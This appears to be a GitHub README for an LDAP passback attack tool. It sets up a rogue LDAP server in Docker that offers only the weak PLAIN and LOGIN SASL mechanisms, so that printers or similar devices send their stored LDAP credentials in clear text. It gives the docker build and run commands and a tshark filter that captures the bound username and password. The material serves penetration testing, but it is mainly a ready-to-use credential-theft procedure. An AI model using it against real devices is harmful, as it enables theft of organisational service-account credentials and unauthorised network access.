 # LDAP Passback

In case a printer (or something similar) has an LDAP account, but use the SASL authentication family instead of SIMPLE, the classic LDAP passback exploitation with a nc server will not be sufficient to retrieve the credentials in clear text. Instead, use a custom LDAP server that only offer the weak PLAIN and LOGIN protocols. This Docker permits to operate with weak protocols.

### 1) Setup rogue LDAP server

    docker buildx build -t ldap-passback .
    docker run --rm -ti -p 389:389 ldap-passback

### 2) Listen with tshark to capture plain-text credentials

    tshark -i any -f "port 389" -Y "ldap.protocolOp == 0 && ldap.simple" -e ldap.name -e ldap.simple -Tjson
  
